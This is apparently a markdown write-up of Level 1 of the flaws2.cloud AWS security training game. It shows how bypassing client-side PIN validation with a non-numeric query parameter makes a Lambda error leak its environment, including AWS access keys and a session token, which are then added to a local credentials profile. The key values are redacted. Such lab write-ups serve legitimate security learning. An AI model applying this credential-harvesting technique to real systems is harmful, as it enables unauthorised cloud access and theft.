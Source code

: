 # flaws2.cloud.notes
Notes on flaws2.cloud

# Attacker

## Level 1 
For this level, you'll need to enter the correct PIN code. The correct PIN is 100 digits long, so brute forcing it won't help.

If we F12 in browser and checkout the code box: 
```
<form name="myForm" action="https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1" onsubmit="return validateForm()">
                Code: <input type="text" name="code" value="1234">
                <br><br>
                <input type="submit" value="Submit">
            </form>
```
Level 1 - Hint 1
The input validation is only done by the javascript. Get around it and pass a pin code that isn't a number.

So assuming we can just pass a parameter called 'code' in the querystring of the URL...

`https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=asdf`

```
Error, malformed input
{"AWS_LAMBDA_LOG_STREAM_NAME":"2021/10/31/[$LATEST]f4641b69990141bda581fc354e649d43","AWS_LAMBDA_FUNCTION_VERSION":"$LATEST","AWS_LAMBDA_INITIALIZATION_TYPE":"on-demand","LD_LIBRARY_PATH":"/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib","_AWS_XRAY_DAEMON_PORT":"2000","AWS_XRAY_DAEMON_ADDRESS":"169.254.79.129:2000","_HANDLER":"index.handler","LAMBDA_TASK_ROOT":"/var/task","LAMBDA_RUNTIME_DIR":"/var/runtime","AWS_DEFAULT_REGION":"us-east-1","PATH":"/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin","AWS_XRAY_CONTEXT_MISSING":"LOG_ERROR","AWS_SESSION_TOKEN":"(redacted)","TZ":":UTC","AWS_SECRET_ACCESS_KEY":"(redacted)","AWS_LAMBDA_LOG_GROUP_NAME":"/aws/lambda/level1","AWS_LAMBDA_FUNCTION_NAME":"level1","AWS_LAMBDA_FUNCTION_MEMORY_SIZE":"128","AWS_LAMBDA_RUNTIME_API":"127.0.0.1:9001","AWS_REGION":"us-east-1","LANG":"en_US.UTF-8","_AWS_XRAY_DAEMON_ADDRESS":"169.254.79.129","AWS_ACCESS_KEY_ID":"(redacted)","AWS_EXECUTION_ENV":"AWS_Lambda_nodejs8.10","NODE_PATH":"/opt/nodejs/node8/node_modules:/opt/nodejs/node_modules:/var/runtime/node_modules:/var/runtime:/var/task:/var/runtime/node_modules","_X_AMZN_TRACE_ID":"Root=1-617de785-033bc97460b0f462069f764f;Parent=7c1db2d22904d0bc;Sampled=0"}
```

...we now have a key, secret key and token.

Add the instance profile keys and token to our local AWS credentials (~/.aws/credentials): 
```
[level1]
aws_access_key_id = (redacted)
aws_secret_access_key = (redacted)
aws_session_token = (redacted)
```
